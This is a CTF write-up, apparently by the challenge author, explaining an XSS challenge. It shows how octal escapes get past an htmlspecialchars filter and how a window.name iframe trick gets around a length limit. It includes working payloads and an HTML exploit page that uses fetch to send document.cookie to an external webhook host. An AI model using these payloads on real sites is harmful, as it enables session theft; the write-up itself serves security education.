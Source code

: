 # Hello everyone, this is my writeup for my web challenge " Xss 3 " that had no solves in JIS CTF 2023 and CAT CTF 23 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/639ccff8-e4fb-40c3-a5ce-dbeec301f48b)

### When we open the link you will find "Enter your name " and after you send it as /?name=ghazy you will get this : 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/408207b2-30aa-4499-98bc-01a9caaa4e6a)

### Since we can clearly see our input reflected in the page so, let's try a basic payload like 
`<img src=x onerror=alert() >`  

### And we will got our input as it 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/eafb90e6-0f92-48fe-89fd-4866c4cd2130)

### Seems filtered right ? so, let's open the html source to see what happened to our payload in the reflection 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a4d89393-7de3-4945-ad7e-1aa048ebd063)

### If u tried to drop some error by sending `name` parameter as an array you will get this error 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a68e2425-a3e9-4efb-b1f3-ac8ea2e142b3)

### So, it's become clear now why our payload is filtered !! because our input is being passed to htmlspecialchars php function

> This function filters the html special chars like : [< , > , ' , " , &] in it's default configuration.

### So, this function is safe from bypassing ! 

### But after some hours since no one solved it, i released a hint .

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/2eee0214-63aa-4c78-8f20-b6f9ba3c1000)

### As we see in the response our input is being reflected on a js variable ! 
### So, let's see how we can use it to bypass htmlspecialchars

### If you opened your browser console and tried this :

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/9b448b0f-fb3a-44ff-8d8e-148c64919373)

### As you can see we can write a string by hex escaping using js like any programming / scripting languages ! 

### And since our input will be reflected at the js variable and the js code will print it in the page So, it should work !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/3dc68b74-15b7-49e3-aad6-2c40bd59d4dd)


### let's try to test it in our challenge

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/238c6305-6ee2-482f-885b-5cfb713a7ffa)

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7f5c5742-f510-48cb-9f21-8d37717a4527)

### As you can see both of them are filtered !! 

### Seems like the developer read about them in documents and filtered them and that what makes it a real life case : ) 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/82c823ca-7982-4ab5-9b34-12fd489b1db8)


### Then what about using an old escaping that has been deprecated from the js docs : D 

### Yup it's called Octal escpaing. 

> We can escape octals in strings by just using `\`

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7c9457b5-1dca-4565-a02f-77a52b34b135)


### TBH, i got it while i was debugging my challenge i wasn't know it before : D

### I wrote a simple for loop to print all chars to figure our what's this escaping and after that i knew it's octal : ) 

### So, let's try to escape our html special chars like : [<,>]

> Our Payload : \74img src=x onerror=alert()\76

### And bingoooo, we got our xss !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/dd303692-266a-43a4-99d7-afa0e85adb48)


### But the problem is we had only 38 chars as a length limit ! So, we can't write a pyload like this to steal the admin cookies:

```javascript

<Script>fetch('http://webhook/?c='+document.cookie)</script>
```

### It's more than 38 chars for sure ! 

### There are many ways to bypass the length limit like : window.open or 13.rs domain : D

### We will use window.open

> In js we can open a new window and control some variables like it's name !

### What about trying to eval our window.name that we will control !

### Like this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/5b87e6fb-ef68-49e0-8859-f177af611269)


### Since our payload length passed 40 chars so it will not work also : ( 

### So, we need to do it in a smart way : D , like eval without using eval 

### If anyone searched about tiny xss payloads he will see this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d78bcb57-4e3d-4621-bff0-43fef076a3b4)

`<iframe/onload=src=top.name>` 

> This payload will refer the iframe src to be the top window name : ) and since we can get xss using iframe src from this payload

```javascript

<iframe src=javascript:alert()>
```
> We can control Window name using window.open function : window.open(url,name)

### So, let's exploit this in our side to get alert : )

```javascript
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <Script>window.open('http://185.69.167.144:6060/xss3/?name=\\74iframe/onload=src=top.name\\76','javascript:alert(\'THIS IS MORE THAN 38 CHARS FOR SUREEEEEEEEEEEEEEEEEE MY BRUUUUUUUUUUUUH \')')</Script>
<p id="a"></p>
<script>a.innerHTML="b";</script>
</body>
</html>
```


![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/fefb4571-539f-4c1b-9d67-fb0158bba780)

### After bypassing the limit we can use this code to get the admin cookies !

```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <Script>window.open('http://127.0.0.1/xss3/?name=\\74iframe/onload=src=top.name\\76','javascript:fetch(\'https://dummmmmmmyyyyy.free.beeceptor.com/?c=\'+document.cookie)')</Script>
<p id="a"></p>
<script>a.innerHTML="b";</script>
</body>
</html>

```

### Just host it in any web hook like beeceptor and send it to the bot like this
![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/67634f37-645f-49e5-8080-67b8efa61caa)

### And we got the flag : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d5333978-0e2a-4a2d-bb3b-08c7ab0cb507)


# Thanks for Reading and hope u enjoyed and learned from  it !
